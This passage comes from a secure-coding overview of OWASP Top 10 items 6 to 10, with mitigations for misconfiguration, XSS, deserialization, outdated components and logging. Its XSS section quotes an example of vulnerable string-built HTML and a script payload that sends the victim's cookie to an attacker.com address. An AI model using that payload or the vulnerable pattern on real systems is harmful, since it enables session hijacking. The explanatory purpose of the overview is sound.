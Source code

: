 6. **Security Misconfiguration**

    This is probably the most common mistakes developers might unintentionally make. This vulnerability allows an attacker to accesses default accounts, unused pages, unpatched flaws, unprotected files and directories, etc. to gain unauthorized access to or knowledge of the system. For instance, an application server’s configuration allows detailed error messages, e.g. stack traces, to be returned to users, which potentially exposes sensitive information or underlying flaws.

    The configuration mistakes could me mitigated by removing any unused features and frameworks and ensuring that error messages are more general. Moreover, developers and system administrators need to work together to ensure that the entire stack is configured properly.

7. **Cross-Site Scripting (XSS)**

    XSS flaws occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victims' browser, which can access any cookies, session tokens, or other sensitive information retained by the browser, or redirect user to malicious sites. According to OWASP, XSS is the second most prevalent issue in the Top 10, and is found in around two-thirds of all applications. 

    For example, the application uses untrusted data in the construction of the following HTML snippet without validation or escaping: `(String) page += "<input name='creditcard' type='TEXT' value='" + request getParameter("CC") + "'>";` The attacker modifies the ‘CC’ parameter in the browser to: `'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.` This attack causes the victim’s session ID to be sent to the attacker’s website.

    To mitigate XSS, whitelist input validation and data sanitization are essential. Using modern web development frameworks like ReactJS and Ruby on Rails also provides some built-in XSS protection.

8. **Insecure Deserialization**
    
    Applications and APIs will be vulnerable if they deserialize hostile or tampered objects supplied by an attacker, and can result in serious consequences like DDoS attacks and remote code execution attacks.
    
    To protect against insecure deserialization, although monitoring deserialization and implementing type checks would help, the only safe way is to should never accept serialized objects from untrusted sources and to prohibit the deserialization of data from untrusted sources. 

9. **Using Components with known Vulnerabilities**

    Components could be libraries, frameworks, and other software modules. Since these components always run with full privileges, if components with known vulnerabilities are exploited, such an attack can seriously affect the application. 

    To minimize the risk of running components with known vulnerabilities, developers should remove unused dependencies and unnecessary features, components, files or documentation from their projects, as well as ensuring that they are monitoring and receiving components from a trusted source and ensuring they are secure and up to date. 

10. **Insufficient Logging & Monitoring**

    Many web applications are not taking enough steps to detect data breaches, which means the release of confidential, private, or otherwise sensitive information into an unsecured environment. In 2016, identifying a breach took an average of 191 days, which gives attackers a lot of time to cause damage before there is any response. 

    Since attackers rely on the lack of monitoring and timely response to
    achieve their goals without being detected, OWASP recommends that web developers should implement logging and monitoring as well as incident response plans to ensure that they are made aware of attacks on their applications.
